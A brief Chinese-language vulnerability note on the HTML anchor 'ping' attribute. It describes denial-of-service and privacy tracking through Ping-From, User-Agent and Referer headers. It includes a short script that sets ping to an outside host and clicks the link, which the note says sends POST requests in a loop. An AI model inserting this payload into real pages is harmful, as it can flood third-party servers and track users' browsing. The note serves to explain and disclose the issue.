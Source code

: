 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；
      PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪
-----   

举例：
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>    
      运行上面的代码，就会不停的向xisigr.com发送POST请求。

